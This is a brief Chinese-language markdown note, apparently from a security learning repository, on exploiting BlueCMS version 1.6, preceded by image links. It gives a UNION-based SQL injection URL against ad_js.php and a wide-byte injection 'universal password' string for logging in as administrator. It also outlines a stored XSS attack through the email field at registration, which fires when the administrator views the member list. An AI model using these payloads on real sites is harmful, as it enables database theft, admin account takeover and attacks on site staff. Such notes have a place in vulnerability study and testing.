




### bluecms

```
版本信息：1.6
```

#### SQL注入

```
ad_js.php?ad_id=1 union select 1,2,3,4,5,6,database()
```



#### 后台宽字节注入万能密码登录

```
admin%df' or 1=1
```



#### 用户注册处XSS

注册的时候抓包，在邮箱处插入payload


在个人中心处即可看到触发了弹窗



管理员登录后台查看会员列表，亦可看到触发弹窗

